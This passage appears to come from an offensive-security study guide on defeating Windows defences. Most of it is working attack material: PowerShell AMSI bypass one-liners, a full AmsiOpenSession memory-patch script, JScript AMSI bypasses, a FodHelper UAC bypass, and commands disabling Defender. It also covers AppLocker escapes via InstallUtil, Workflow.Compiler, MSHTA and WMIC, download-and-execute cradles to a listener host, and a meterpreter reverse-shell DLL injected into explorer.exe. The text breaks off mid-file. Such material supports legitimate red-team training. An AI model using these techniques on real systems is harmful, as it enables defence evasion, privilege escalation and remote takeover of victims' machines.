The Antimalware Scan Interface (AMSI), introduced in Windows 10, intercepts every PowerShell, JScript, VBScript, VBA (Office 2019+), and .NET (4.8+) command at runtime and passes the content buffer to the registered antivirus provider — typically Windows Defender — via RPC before execution. AMSI runs inside the scripting host process (e.g., powershell.exe, wscript.exe) through the loaded AMSI.DLL.
| AMSI API | Purpose | Bypass Relevance |
|---|---|---|
AmsiInitialize | Creates amsiContext; called at process start | Cannot intercept — happens before user input |
AmsiOpenSession | Opens a scan session using amsiContext | Corrupting amsiContext causes this to fail → AMSI disabled |
AmsiScanBuffer | Submits buffer to AV for scanning; returns result | Primary bypass target: patch first bytes to force failure |
AmsiScanString | String variant (superseded by AmsiScanBuffer) | Historical bypass target; deprecated approach |
AmsiCloseSession | Closes scan session after result | Not relevant — bypass must occur before scan result |
The AMSI scan result is stored as a WORD value at the address supplied in the result parameter of AmsiScanBuffer. A return value of 1 indicates clean; 32768 indicates malware detected.
9.2.1 Frida Tracing AMSI APIs
# Attach Frida to a running PowerShell process and hook all AMSI functions
frida-trace -p [powershell-pid] -x amsi.dll -i Amsi*9.2.2 AmsiScanBuffer.js Handler (Frida)
// Edit: C:\Users\[user]\__handlers__\amsi.dll\AmsiScanBuffer.js
onEnter: function (log, args, state) {
log('[*] AmsiScanBuffer()');
log('|- buffer: ' + Memory.readUtf16String(args[1]));
log('|- length: ' + args[2]);
this.resultPointer = args[5];
},
onLeave: function (log, retval, state) {
log('[*] AmsiScanBuffer() Exit');
log('|- Result value is: ' + Memory.readUShort(this.resultPointer));
}9.3 AMSI Bypass via Reflection
The amsiContext structure stored by AmsiInitialize begins with the four-byte ASCII header AMSI. The AmsiOpenSession function validates this header on every call — if it does not match 0x49534D41, the function returns E_INVALIDARG (0x80070057) and AMSI is effectively disabled for the session. By overwriting those four header bytes with zeros from PowerShell, AMSI shuts down without crashing the process.
The amsiContext address is held in the private static amsiContext field of the managed System.Management.Automation.AmsiUtils class. Because the string AmsiUtils is itself a Windows Defender signature, both the type and field must be resolved dynamically using GetTypes() and wildcard pattern matching to avoid triggering detection.
9.3.1 AMSI Bypass via amsiContext Corruption (PowerShell One-Liner)
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)9.3.2 AMSI Bypass via amsiInitFailed (PowerShell — Dynamic Resolution)
# Original (flagged — uses literal 'AmsiUtils' and 'amsiInitFailed' strings):
# [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Dynamic version to avoid string signatures:
$a=[Ref].Assembly.GetTypes()
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
$d=$c.GetFields('NonPublic,Static')
Foreach($e in $d) {if ($e.Name -like "*nitFailed") {$f=$e}}
$f.SetValue($null,$true)Methodology
-
frida-trace -p [powershell-pid] -x amsi.dll -i Amsi* -
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1) -
sliver (SESSION) > sharpsh -t 20 -- '-c "whoami /all"' sliver (SESSION) > sharpsh -t 20 -- '-c "$ExecutionContext.SessionState.LanguageMode"' -
sliver (SESSION) > execute-assembly -i /home/kali/tools/bins/csharp-files/Stracciatella.exe -c "$ExecutionContext.SessionState.LanguageMode"
9.4 AMSI Bypass via Binary Patching
Instead of corrupting the amsiContext data structure, binary patching modifies the machine code of AmsiOpenSession itself. The first instruction is TEST RDX,RDX (bytes 0x48 0x85 0xD2), followed by a conditional jump (JE) that leads to the error return path. Replacing TEST RDX,RDX with XOR RAX,RAX (bytes 0x48 0x31 0xC0) forces the zero flag to be set on every call, making every invocation jump immediately to the E_INVALIDARG return — permanently disabling AMSI in the current process without touching data structures.
The three-byte patch is applied from PowerShell using reflection to resolve the AmsiOpenSession address via GetModuleHandle/GetProcAddress, then VirtualProtect to make the page writable, Marshal.Copy to write the patch, and VirtualProtect again to restore original memory permissions.
9.4.1 AMSI Patch via PowerShell Reflection (Full Script)
function LookupFunc {
Param ($moduleName, $functionName)
$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
).GetType('Microsoft.Win32.UnsafeNativeMethods')
$tmp=@()
$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}
function getDelegateType {
Param (
[Parameter(Position=0,Mandatory=$True)] [Type[]] $func,
[Parameter(Position=1)] [Type] $delType = [Void]
)
$type = [AppDomain]::CurrentDomain.
DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).
DefineDynamicModule('InMemoryModule', $false).
DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
$type.DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
$type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()
}
# 1. Resolve AmsiOpenSession address
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
# 2. Change memory protection to PAGE_EXECUTE_READWRITE (0x40)
$oldProtectionBuffer = 0
$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
(LookupFunc kernel32.dll VirtualProtect),
(getDelegateType @([IntPtr],[UInt32],[UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
# 3. Overwrite TEST RDX,RDX with XOR RAX,RAX (48 31 C0)
$buf = [Byte[]](0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
# 4. Restore original memory protection (0x20 = PAGE_EXECUTE_READ)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)Methodology
-
0:001> u amsi!AmsiOpenSession L5 -
# Run full AMSI patch script, then verify: 'amsiutils' # Should return 'amsiutils' without AV block -
Sub MyMacro() ' Encrypted AMSI patch download cradle placed in registry value GetObject(Nuts("[encrypted-winmgmts]")).Get(Nuts("[encrypted-Win32_Process]")).Create _ "powershell -enc [base64-encoded-amsi-patch-and-runner]", Null, Null, pid End Sub -
sliver (SESSION) > shell $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1) iex((new-object system.net.webclient).downloadstring('http://[listener-ip]/[script].ps1'))
9.5 UAC Bypass vs. Windows Defender (FodHelper)
The FodHelper UAC bypass abuses fodhelper.exe — a Windows 10 optional features manager that runs at high integrity — by creating a registry key at HKCU:\Software\Classes\ms-settings\shell\open\command with a DelegateExecute value. When fodhelper runs, it reads this key and executes the default value as a high-integrity process. Because this operates on the current user's writable HKCU hive, no admin rights are required to set it up.
The Metasploit fodhelper module triggers AMSI on the PowerShell component it spawns. To succeed, the PowerShell download cradle stored in the registry value must include an AMSI bypass. The second stage Meterpreter payload also requires stage encoding to survive network-level AV inspection during delivery.
9.5.1 FodHelper UAC Bypass (Manual)
# Create registry path — value is the command to run at high integrity
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command `
-Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.txt') | IEX" `
-Force
# Add DelegateExecute value to trigger the hijack
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command `
-Name DelegateExecute -PropertyType String -Force
# Launch fodhelper to trigger the bypass
C:\Windows\System32\fodhelper.exe9.5.2 FodHelper via Sliver sharpsh (Base64 Encoded)
# Create the registry key (base64-encoded to handle quoting)
sliver (SESSION) > sharpsh -- -e -c TmV3LUl0ZW0gLVBhdGggSEtDVTpcU29mdHdhcmVcQ2xhc3Nlc1xtcy1zZXR0aW5nc1xzaGVsbFxvcGVuXGNvbW1hbmQgLVZhbHVlICJwb3dlcnNoZWxsLmV4ZSAoaXdyIGh0dHA6Ly9bbGlzdGVuZXItaXBdL3J1bi50eHQgLXVzZWJhc2ljcGFyc2luZykgfCBJRVgiIC1Gb3JjZQ==
# Add DelegateExecute property
sliver (SESSION) > sharpsh -- -e -c TmV3LUl0ZW1Qcm9wZXJ0eSAtUGF0aCBIS0NVOlxTb2Z0d2FyZVxDbGFzc2VzXG1zLXNldHRpbmdzXHNoZWxsXG9wZW5cY29tbWFuZCAtTmFtZSBEZWxlZ2F0ZUV4ZWN1dGUgLVByb3BlcnR5VHlwZSBTdHJpbmcgLUZvcmNl
# Launch fodhelper
sliver (SESSION) > execute -o powershell 'Start-Process "C:\Windows\System32\fodhelper.exe"'Methodology
-
sliver (SESSION) > execute -o whoami /groups -
# On Kali — host the AMSI bypass + shellcode runner script sudo cp /tmp/run.txt /var/www/html/run.txt -
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/run.txt') | IEX" -Force New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force C:\Windows\System32\fodhelper.exe -
sliver (SESSION) > sa-whoami sliver (SESSION) > getsystem -
Remove-Item -Path "HKCU:\Software\Classes\ms-settings" -Recurse -Force
9.6 JScript AMSI Bypass
AMSI hooks wscript.exe and cscript.exe differently from PowerShell. JScript processes the entire script in a single AMSI session rather than per-command, and the API flow skips AmsiOpenSession in some code paths. Two distinct bypass techniques exist for JScript: a registry key approach and a DLL hijacking approach.
The registry approach exploits the JAmsiIsEnabledByRegistry function in jscript.dll, which reads HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable before initializing AMSI. Setting this DWORD to 0 prevents AMSI from initializing for the wscript.exe process. The script must set this key before execution begins and re-execute itself; a try/catch construct handles the first-run vs. second-run logic. The DLL hijacking approach copies wscript.exe to a writable path named amsi.dll and executes it. Because LoadLibraryExW skips loading a DLL that matches the process name, AMSI.DLL is never loaded and AMSI is never initialized.
9.6.1 JScript AMSI Bypass — Registry Key Method
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
var AmsiEnable = sh.RegRead(key);
if (AmsiEnable != 0) {
throw new Error(1, '');
}
} catch(e) {
// First run: set key and re-execute this script via cscript with AMSI disabled
sh.RegWrite(key, 0, "REG_DWORD");
sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName, 0, 1);
sh.RegWrite(key, 1, "REG_DWORD");
WScript.Quit(1);
}
// ... DotNetToJscript shellcode runner follows here ...9.6.2 JScript AMSI Bypass — DLL Hijack Method (wscript.exe → amsi.dll)
var filesys = new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try {
if (filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll") == 0) {
throw new Error(1, '');
}
} catch(e) {
// Copy wscript.exe as amsi.dll; when it loads itself, LoadLibraryExW skips loading the real amsi.dll
filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName);
WScript.Quit(1);
}
// ... DotNetToJscript shellcode runner follows here ...Methodology
-
frida-trace -p [wscript-pid] -x amsi.dll -i Amsi* -
sliver (SESSION) > hollow svchost.exe /home/kali/payloads/sliver.x64.bin -
# Remove the copied binary del C:\Windows\Tasks\AMSI.dll # Restore registry key (set AmsiEnable back to 1 or delete it) reg delete "HKCU\Software\Microsoft\Windows Script\Settings" /v AmsiEnable /f
9.7 Disabling Defender and Firewall via Sliver
Once a high-privilege session is established, disabling Windows Defender real-time monitoring and the Windows Firewall removes the most immediate detection obstacles for subsequent post-exploitation activity. These actions require administrative or SYSTEM-level privileges and should be performed after UAC bypass if starting from a medium-integrity context.
The sharpsh Sliver armory extension executes PowerShell commands inside the current process, bypassing both AMSI and Constrained Language Mode (CLM). Hosting a dedicated Defender-disabling script on the Sliver web server and invoking it via sharpsh is the most reliable method when direct command execution is restricted.
Methodology
-
sliver (SESSION) > sharpsh -t 20 -- -c "Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true" -
sliver (SESSION) > sharpsh -t 20 -- -u 'http://[listener-ip]/powershell-scripts/DefendersDeath.ps1' -c 1 -
sliver (SESSION) > sharpsh -t 20 -- '-c "Get-MpPreference | Select DisableRealtimeMonitoring"' -
sliver (SESSION) > hollow svchost.exe /home/kali/payloads/sliver.x64.bin
10. Application Whitelisting
10.1 AppLocker Theory
Application whitelisting is a host-based protection mechanism that blocks all software execution except applications explicitly defined in a pre-approved ruleset. Microsoft's AppLocker leverages the kernel-mode driver APPID.SYS and the APPIDSVC user-mode service, which register a notification callback via PsSetCreateProcessNotifyRoutineEx to intercept every new process creation and evaluate it against the ruleset.
AppLocker is available on Windows Enterprise and Ultimate editions only. A newer and stricter implementation, Windows Defender Application Control (WDAC), operates at the HyperVisor level using Virtualization-based Security (VBS) and HyperVisor Code Integrity (HVCI), though it is rarely deployed in practice due to strict hardware requirements.
| Solution | Enforcement Layer | Key Components | Availability |
|---|---|---|---|
| Software Restriction Policies (SRP) | Kernel-mode callback | Legacy policy engine | All Windows (deprecated) |
| AppLocker | Kernel-mode (APPID.SYS) | APPID.SYS + APPIDSVC service | Enterprise / Ultimate only |
| WDAC (Device Guard) | HyperVisor (VBS/HVCI) | Virtualization-based enforcement | Windows 10 / Server 2016+ |
10.1.1 AppLocker Rule Types
| Rule Type | Basis | Notes |
|---|---|---|
| Path | File path or directory (recursive) | Most common; weakest against bypass |
| Hash | SHA256 Authenticode hash | Precise; must be updated on every version change |
| Publisher | Digital signature (publisher) | Covers all versions from a single vendor with one rule |
10.1.2 AppLocker Rule Categories
| Category | File Types Covered |
|---|---|
| Executables | .exe |
| Windows Installer | .msi |
| Scripts | .ps1, .js, .vbs, .cmd, .bat |
| Packaged Apps | UWP / Microsoft Store apps |
| DLLs (optional) | .dll (must be enabled separately under Advanced tab) |
Methodology
-
# Force GP refresh after configuring AppLocker rules gpupdate /force -
$ExecutionContext.SessionState.LanguageMode -
copy C:\Windows\System32\calc.exe C:\Users\[user]\calc2.exe C:\Users\[user]\calc2.exe # Expected: "This program is blocked by group policy." -
# Event Viewer path: # Applications and Services Logs -> Microsoft -> Windows -> AppLocker -> EXE and DLL
10.2 Trusted Folder Bypass
The default AppLocker path rules whitelist C:\Program Files, C:\Program Files (x86), and C:\Windows recursively. Because non-admin users cannot write to most of these directories, this appears safe. However, several subdirectories within C:\Windows are writable by standard users — and if they also allow execute, AppLocker's path rules become a bypass vehicle.
The key writable and executable directories under default AppLocker rules include C:\Windows\Tasks and C:\Windows\Temp. Because these paths fall within the whitelisted C:\Windows tree, any binary or DLL placed there executes without restriction. This is the simplest and most reliable AppLocker bypass.
| Directory | Write | Execute | Notes |
|---|---|---|---|
| C:\Windows\Tasks | Yes (Authenticated Users) | Yes (RX) | Most reliable bypass path |
| C:\Windows\Temp | Yes | Yes | Often cleaned; less stable |
| C:\Windows\tracing | Yes | Yes | Available on some configurations |
| C:\Windows\System32\FxsTmp | Yes | Yes | Fax service temp dir |
Methodology
-
accesschk.exe "[user]" C:\Windows -wus -
icacls.exe C:\Windows\Tasks # Look for: NT AUTHORITY\Authenticated Users:(RX,WD) -
copy [payload].exe C:\Windows\Tasks\[payload].exe C:\Windows\Tasks\[payload].exe -
sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/SharpUp.exe audit sliver ([session]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/SharpUp.exe audit
10.3 DLL Bypass
AppLocker's default ruleset does not include DLL enforcement. This means that unmanaged DLLs can be freely loaded via rundll32.exe, which is a signed Microsoft binary residing in C:\Windows\System32 and therefore always whitelisted. An attacker can compile a DLL exporting a function with arbitrary shellcode and invoke it directly through rundll32.
If DLL enforcement is later enabled via the AppLocker Advanced tab, the same trusted-folder bypass applies — copying the DLL into C:\Windows\Tasks bypasses the DLL rules because the default DLL rules whitelist the C:\Windows path tree recursively.
Methodology
-
#include <Windows.h> BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) { return TRUE; } extern "C" __declspec(dllexport) void run() { // shellcode runner or payload here MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK); } -
rundll32 C:\Windows\Tasks\[payload].dll,run -
copy [payload].dll C:\Windows\Tasks\[payload].dll rundll32 C:\Windows\Tasks\[payload].dll,run
10.4 Alternate Data Streams
NTFS supports multiple data streams per file through the Alternate Data Stream (ADS) feature. A file in a trusted, writable location can have a script appended to it as a hidden stream. When executed via wscript.exe with explicit stream notation, the embedded script runs under the trusted file's path context, bypassing AppLocker's script rules.
The attack requires finding a file in a whitelisted path that the current user can write to. Log files in directories like C:\Program Files (x86)\[application] are common candidates. Once the Jscript payload is embedded as a stream, wscript invokes it directly by specifying the ADS path with colon notation.
Methodology
-
accesschk.exe "[user]" "C:\Program Files (x86)\[application]" -ws -
type [payload].js > "C:\Program Files (x86)\[application]\[logfile].log:[payload].js" -
dir /r "C:\Program Files (x86)\[application]\[logfile].log" -
wscript "C:\Program Files (x86)\[application]\[logfile].log:[payload].js"
10.5 PowerShell Constrained Language Mode
When AppLocker or WDAC enforces script rules, PowerShell automatically drops into Constrained Language Mode (CLM). CLM prohibits calls to the .NET framework, C# compilation, reflection, and COM objects — effectively neutering most PowerShell-based tradecraft. Scripts that reside in whitelisted locations run with full functionality, but interactive commands and non-whitelisted scripts are restricted.
PowerShell version 2 (if installed) can sometimes bypass CLM by specifying -Version 2 at launch. On Windows 7 and early Windows 10 builds, this remains viable. On modern systems, the more reliable approach is a custom runspace built in C# or the InstallUtil bypass described in subsequent sections.
| Language Mode | Description | Impact |
|---|---|---|
| FullLanguage | Default unrestricted mode | All cmdlets and .NET framework accessible |
| ConstrainedLanguage | Enforced by AppLocker/WDAC for non-whitelisted scripts | No .NET calls, no reflection, no C# execution |
| RestrictedLanguage | Only default cmdlets; heavy restrictions | Subset of ConstrainedLanguage |
| NoLanguage | All script text disallowed | Commands rejected at parse time |
Methodology
-
$ExecutionContext.SessionState.LanguageMode -
[Math]::Cos(1) # Expected: "Method invocation is supported only on core types in this language mode." -
powershell -Version 2 -c "$ExecutionContext.SessionState.LanguageMode" -
sliver ([session]) > sharpsh -t 20 -- '-c "$ExecutionContext.SessionState.LanguageMode"' sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/Stracciatella.exe -c "$ExecutionContext.SessionState.LanguageMode"
10.6 Custom Runspaces
PowerShell.exe is a thin wrapper around System.Management.Automation.dll. A C# application can bypass CLM entirely by directly instantiating a custom PowerShell runspace using the public APIs in the System.Management.Automation.Runspaces namespace. Scripts executed inside a custom runspace are not evaluated by AppLocker's PowerShell CLM enforcement and always run in FullLanguage mode.
This technique also avoids any AppLocker deny rules targeting powershell.exe itself, since the managed code runs inside a custom process — not PowerShell.exe. The C# executable must still be placed in a whitelisted directory or delivered through a bypass technique such as InstallUtil.
10.6.1 Custom Runspace C# Template
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
namespace Bypass
{
class Program
{
static void Main(string[] args)
{
// Fetch and execute a remote PowerShell script
String cmd = "(New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/[script].ps1') | IEX; [Function] | Out-File -FilePath C:\\Windows\\Tasks\\out.txt";
Runspace rs = RunspaceFactory.CreateRunspace();
rs.Open();
PowerShell ps = PowerShell.Create();
ps.Runspace = rs;
ps.AddScript(cmd);
ps.Invoke();
rs.Close();
}
}
}
Methodology
-
# Reference path: C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll -
# Compile in Visual Studio: Build -> Configuration Manager -> Release / x64 -
copy Bypass.exe C:\Windows\Tasks\Bypass.exe C:\Windows\Tasks\Bypass.exe -
# Embed in the cmd variable: "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Windows\\Tasks\\test.txt" # Then check: type C:\Windows\Tasks\test.txt # Expected: FullLanguage -
sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/Bypass.exe sliver ([session]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/Bypass.exe
10.7 CLM Bypass via InstallUtil
InstallUtil.exe is a signed Microsoft .NET utility located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ and is always whitelisted by AppLocker's default publisher and path rules. By placing custom C# code inside the Uninstall method of a class that inherits from System.Configuration.Install.Installer, an attacker can trigger arbitrary execution through InstallUtil with the /U flag — completely bypassing AppLocker's executable rules.
The Main method still must exist in the compiled binary but can contain decoy code. The real payload lives in Uninstall, which InstallUtil invokes without requiring administrative privileges when called with /U. Combining this with a custom runspace delivers unrestricted PowerShell execution inside an AppLocker-enforced environment.
10.7.1 InstallUtil Bypass C# Template
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
namespace Bypass
{
class Program
{
static void Main(string[] args)
{
Console.WriteLine("This is the main method which is a decoy");
}
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
public override void Uninstall(System.Collections.IDictionary savedState)
{
String cmd = "(New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/[script].ps1') | IEX; [Function] | Out-File -FilePath C:\\Windows\\Tasks\\out.txt";
Runspace rs = RunspaceFactory.CreateRunspace();
rs.Open();
PowerShell ps = PowerShell.Create();
ps.Runspace = rs;
ps.AddScript(cmd);
ps.Invoke();
rs.Close();
}
}
}
10.7.2 Delivery via certutil and bitsadmin (Living off the Land)
The compiled binary must be present on disk before InstallUtil is invoked. To avoid direct binary download detection, encode the executable with Base64 using certutil, serve the encoded file, download it with bitsadmin, decode it, and then execute with InstallUtil — all native signed Microsoft binaries.
Methodology
-
# Visual Studio: References -> Add Reference -> Assemblies -> System.Configuration.Install -
certutil -encode Bypass.exe file.txt # Copy file.txt to Apache web root -
bitsadmin /Transfer myJob http://[listener-ip]/file.txt C:\Users\[user]\enc.txt && certutil -decode C:\Users\[user]\enc.txt C:\Users\[user]\Bypass.exe && del C:\Users\[user]\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\[user]\Bypass.exe -
type C:\Windows\Tasks\out.txt # Expected: FullLanguage -
sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/Bypass.exe sliver ([session]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/Bypass.exe
10.8 Reflective Injection via Custom Runspace
With the custom runspace and InstallUtil bypass in place, it is possible to revive reflective DLL injection tradecraft even when AppLocker DLL enforcement is active. The PowerShell script executed inside the custom runspace downloads a Meterpreter DLL into a byte array and passes it directly to Invoke-ReflectivePEInjection — bypassing both the executable rules and the DLL rules, since the DLL never touches disk as a standalone file.
The DLL is loaded entirely in memory into an existing process (typically explorer.exe), which makes this technique highly effective against DLL enforcement rules. The key insight is that AppLocker's DLL rules apply to DLLs loaded from disk paths, not to DLLs reflectively injected from byte arrays in memory.
Methodology
-
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f dll -o met.dll # Copy met.dll and Invoke-ReflectivePEInjection.ps1 to /var/www/html/ -
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://[listener-ip]/met.dll');" + "(New-Object System.Net.WebClient).DownloadString('http://[listener-ip]/Invoke-ReflectivePEInjection.ps1') | IEX;" + "$procid = (Get-Process -Name explorer).Id;" + "Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid"; -
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Users\[user]\Bypass.exe -
msfconsole -q -x 'use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST [listener-ip]; set LPORT [listener-port]; run'
10.9 C# Bypass via Microsoft.Workflow.Compiler
Microsoft.Workflow.Compiler.exe is a signed Microsoft binary located in C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ and is whitelisted by default AppLocker rules. Reverse engineering reveals that it accepts two command-line arguments: a serialized XML file containing compiler parameters and the path to a C# source file, and an output XML path for results. The binary compiles the C# source in memory, loads the resulting assembly, and instantiates any class that inherits from System.Workflow.ComponentModel.Activity — invoking its constructor.
This means an attacker can execute arbitrary C# code by providing a crafted XML configuration file and a C# source file. Both files must exist on disk, but the compiled assembly is loaded in memory without AppLocker restrictions because the compilation is performed by a trusted, signed binary. The XML input file must be generated using PowerShell reflection against the SerializeInputToWrapper private method inside Microsoft.Workflow.Compiler.exe.
10.9.1 Step 1: Generate the XML Input File (Attacker / Admin PowerShell)
$workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
$workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
$SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'
$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$compilerparam.GenerateInMemory = $True
$pathvar = "C:\Windows\Tasks\run.txt" # Path to your C# source file
$output = "C:\Windows\Tasks\run.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @(
[Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam,
[String[]] @(,$pathvar)
))
Move-Item $tmp $output
# Grant read access to the low-priv user
$Acl = Get-ACL $output
$AccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("[user]","FullControl","none","none","Allow")
$Acl.AddAccessRule($AccessRule)
Set-Acl $output $Acl
10.9.2 Step 2: C# Source File Inheriting from Activity
using System;
using System.Workflow.ComponentModel;
public class Run : Activity
{
public Run()
{
// Code placed here executes when the class is instantiated
// Example: spawn a reverse shell or load shellcode
Console.WriteLine("AppLocker bypass executed via Microsoft.Workflow.Compiler");
}
}
Methodology
-
# Run the PowerShell script from the Step 1 template above # Adjust $pathvar to point to your C# source file path # Adjust $output to your desired XML output path -
# Save the C# code (Step 2 template) to C:\Windows\Tasks\run.txt -
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe C:\Windows\Tasks\run.xml C:\Windows\Tasks\results.xml -
sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/[tool].exe [args] sliver ([session]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/[tool].exe [args]
10.10 JScript and MSHTA
mshta.exe is a signed Microsoft binary that executes HTML Application (.hta) files containing embedded Jscript or VBScript. Because mshta.exe lives in C:\Windows\System32, it is whitelisted by AppLocker's default rules. An attacker can embed arbitrary Jscript — including DotNetToJscript shellcode runners — inside an HTA file and deliver it via email attachment, HTML smuggling, or a shortcut (.lnk) file pointing to a remote URL.
The shortcut file approach is particularly effective: the victim receives only a .lnk file that silently invokes mshta.exe with a remote HTA URL. mshta.exe downloads and executes the HTA without spawning PowerShell or any other visible process, allowing the embedded Jscript to run entirely within the mshta.exe process context and bypass script-based AppLocker rules.
10.10.1 Proof-of-Concept HTA File
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>Methodology
-
sudo cp [payload].hta /var/www/html/ sudo systemctl start apache2 -
mshta.exe http://[listener-ip]/[payload].hta -
# Shortcut target field: C:\Windows\System32\mshta.exe http://[listener-ip]/[payload].hta -
# Replace the proof-of-concept Jscript with output from DotNetToJscript # Host the updated HTA and deliver the .lnk to the target
10.11 XSL Transform
The XSLT specification permits embedded Jscript or VBScript execution as part of the XML transformation process. WMIC (Windows Management Instrumentation Command-line) is a signed Microsoft binary that supports the /format: switch to specify an XSL stylesheet, which can be fetched from a remote URL. Because WMIC resides in C:\Windows\System32\wbem\, it is whitelisted by AppLocker, and any Jscript embedded in the XSL document executes within the wmic.exe process.
This technique — known as Squiblytwo (MITRE ATT&CK T1220) — provides a second Jscript execution vector independent of mshta.exe. Like the HTA approach, it can be weaponized with DotNetToJscript payloads and delivered via shortcut files, making it a reliable fallback if MSHTA is denied.
10.11.1 Proof-of-Concept XSL File
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
